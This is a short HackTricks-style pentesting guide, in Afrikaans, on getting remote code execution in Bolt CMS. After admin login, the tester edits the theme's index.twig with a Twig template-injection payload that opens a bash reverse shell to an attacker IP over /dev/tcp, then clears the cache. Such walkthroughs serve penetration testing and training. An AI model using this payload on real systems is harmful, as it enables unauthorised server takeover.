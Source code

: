 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Na aanmelding as admin (gaan na /bot om die aanmeldprompt te bereik), kan jy RCE in Bolt CMS verkry:

- Kies `Configuration` -> `View Configuration` -> `Main Configuration` of gaan na die URL pad `/bolt/file-edit/config?file=/bolt/config.yaml`
- Kontroleer die waarde van tema

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Kies `File management` -> `View & edit templates`
- Kies die tema basis wat in die vorige (`base-2021` in hierdie geval) stap gevind is en kies `index.twig`
- In my geval is dit in die URL pad /bolt/file-edit/themes?file=/base-2021/index.twig
- Stel jou payload in hierdie lêer via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), soos: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- En stoor veranderinge

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Maak die cache skoon in `Maintenance` -> `Clear the cache`
- Toegang weer die bladsy as 'n gewone gebruiker, en die payload behoort uitgevoer te word

{{#include ../../banners/hacktricks-training.md}}

